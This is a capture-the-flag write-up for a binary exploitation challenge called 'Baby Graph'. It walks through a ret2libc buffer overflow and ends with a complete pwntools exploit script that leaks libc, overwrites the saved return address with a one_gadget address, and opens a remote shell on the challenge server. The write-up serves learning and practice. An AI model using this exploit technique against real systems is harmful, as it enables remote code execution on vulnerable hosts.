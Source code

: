 # Baby Graph
## Solved by: oneNutW0nder
## 19 Solves

> This is what happens to your baby when you want a pwner and a graph theorist. Do your part!!!

- This challenge was my first ever attempt at solving a _ret2libc_ challenge! I have been learning more binary exploitation in my free time but have not gotten to this point yet, nonetheless, I was confident that I could figure it out.

- As I mentioned this is a _ret2libc_ challenge. I guessed this based on the fact that we were given a `libc.so` file along with the target binary and the source code. We can also verify that it is this type of challenge by running `checksec` on the binary:

![](Pasted%20image%2020210419133229.png)

- In the shot above we can see that `NX` is enabled which means the stack is not executable. This means we will have to ROP instead of jumping to shellcode on the stack. I will not be explaining what ROP is or the concepts involved in it as there are many better resources out there that can do a much better job of explaining the concepts than I would be able to. 

- Along with the challenge binary and `libc.so`, we were also given the source code! This is awesome because we don't have to spend time reverse engineering the binary to find the bug. If we take a look at the source we can see it does some math shenanigans with Eulerian graphs. This is something that was thrown in to add a little extra piece to solving the challenge. If you look at the code in `main()` you must successfully identify if a given graph is Eulerian or not 5 times before the `vuln()` function is called:

![](Pasted%20image%2020210419133619.png)

![](Pasted%20image%2020210419133638.png)

- After some experimentation I decided that I would just choose the `N` option every time because I am lazy and didn't feel like parsing the output and doing the math in my exploit code :P.

- Anyway, if we look at `vuln()` it is a very simple function:

![](Pasted%20image%2020210419133814.png)

- It create a buffer, prints the address of the `system()` function and reads in 400 bytes into the buffer it created. This is very clearly a massive buffer overflow and the fact that we are given the address of the `system()` function is helpful for ROP because we don't have to find a way to leak an address now!

- The rest of the exploit is relatively straight forward, we need to first do math successfully (or bruteforce it), then send our ROP chain as a payload when `fgets()` is called inside `vuln()`.  We need to do the following still:
	- Identify where we have to overflow to in order to overwrite RIP
	- Find ROP gadgets to get a shell
	
- Finding the overflow point is straight forward aside from the math being annoying. After some experimentation we find the buffer needs to be 120 bytes long before we start overwriting the saved RIP.

- Next we need to build our ROP chain! Again, other sources will explain how this works better than I can and in more detail. We can accomplish what we need by using `one_gadget` which will give us an address for a full ROP chain so we don't have to do much work.

![](Pasted%20image%2020210419134704.png)

- This gives us three addresses to try that will give us a shell. The last thing to do is build the exploit and fire away! Below is the exploit that was used and executed with `python2.7` (Python3 does weird things with bytes and I am still working it out). 

```python
from pwn import *

BUFFER_LEN = 120 # Length of buffer till we hit saved RIP
HOST = "challenges1.ritsec.club"
PORT = 1339
LIBC = "./libc.so.6"

local = False

elf = pwnlib.elf.ELF("./babygraph")

if local:
    p = elf.process()
else:
    p = pwnlib.tubes.remote.remote(HOST, PORT)
    libc = pwnlib.elf.ELF("./libc.so.6")

# print(p.recv())

print(p.recvuntil("(Y/N)\n"))
p.sendline("N")
print(p.recvuntil("(Y/N)\n"))
p.sendline("N")
print(p.recvuntil("(Y/N)\n"))
p.sendline("N")
print(p.recvuntil("(Y/N)\n"))
p.sendline("N")
print(p.recvuntil("(Y/N)\n"))
p.sendline("N")

# Get the address of system()
print(p.recvuntil("prize: "))
systemAddr = p.recvline()
systemAddr = systemAddr.decode().strip()
# Get base address
system = int(systemAddr, 16)
print("Address of system():", hex(system))

# Set base addr for libc
print("Addr of libc system:", hex(libc.symbols['system']))
libc.address = system - libc.symbols['system']
print("Base address of libc:", hex(libc.address))

# ROPgadet --binary libc
# 0x00000000004017c3 : pop rdi ; ret
#0x0000000000026b72 : pop rdi ; ret
pop_rdi = 0x0000000000026b72

# bin_sh = libc.search("/bin/sh").next()
bin_sh = 0x1b75aa
print("Address of /bin/sh:", hex(bin_sh))
bin_sh = bin_sh + libc.address
print("Address of /bin/sh:", hex(bin_sh))
execve = 0xe6c81 + libc.address
#execve = 0xe6c84 + libc.address
print("Addr of one_gadget:", hex(execve))

rop_chain = [
    pop_rdi, bin_sh,
    system
]
# rop_chain = ''.join([pwnlib.util.packing.p64(r) for r in rop_chain])

payload = b"A" * BUFFER_LEN 
payload += pwnlib.util.packing.p64(execve)
#payload += pwnlib.util.packing.p64(pop_rdi)
#payload += pwnlib.util.packing.p64(bin_sh)
#payload += pwnlib.util.packing.p64(execve)
# payload += rop_chain
# print(payload)
p.sendline(payload)
p.interactive()
```

- This includes all my testing and comments as well. Note that I had to try two different _one_gadget_ addresses as the first one that I tried did not work. Enjoy the flag!


![](Pasted%20image%2020210418220013.png)